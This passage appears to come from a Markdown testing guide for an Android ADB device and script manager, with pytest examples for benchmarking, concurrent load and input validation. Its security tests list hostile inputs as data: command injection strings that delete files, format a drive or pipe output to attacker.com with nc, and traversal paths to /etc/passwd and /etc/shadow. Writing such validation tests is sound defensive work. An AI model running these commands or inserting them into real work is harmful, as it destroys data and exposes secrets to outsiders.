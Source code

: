 ```python
    pass
```

## 📈 Performance Testing

### Benchmarking
```python
def test_device_discovery_performance(benchmark):
    """Benchmark device discovery performance."""
    manager = DeviceManager()
    result = benchmark(manager.discover_devices)
    assert len(result) >= 0
```

### Load Testing
```python
def test_concurrent_script_execution():
    """Test concurrent script execution performance."""
    manager = ScriptManager()
    
    # Execute 10 scripts concurrently
    with ThreadPoolExecutor(max_workers=10) as executor:
        futures = [
            executor.submit(manager.execute_script, script_id)
            for script_id in script_ids
        ]
        
        results = [f.result() for f in futures]
        assert all(results)
```

## 🔐 Security Testing

### Input Validation
```python
def test_command_injection_prevention():
    """Test prevention of command injection attacks."""
    dangerous_inputs = [
        "adb shell; rm -rf /",
        "adb shell && format C:",
        "adb shell | nc attacker.com 1234"
    ]
    
    for dangerous_input in dangerous_inputs:
        assert not validate_adb_command(dangerous_input)
```

### File Path Traversal
```python
def test_path_traversal_prevention():
    """Test prevention of path traversal attacks."""
    dangerous_paths = [
        "../../../etc/passwd",
        "..\\..\\Windows\\System32",
        "/etc/shadow"
    ]
    
    for path in dangerous_paths:
        assert not validate_file_path(path)
```
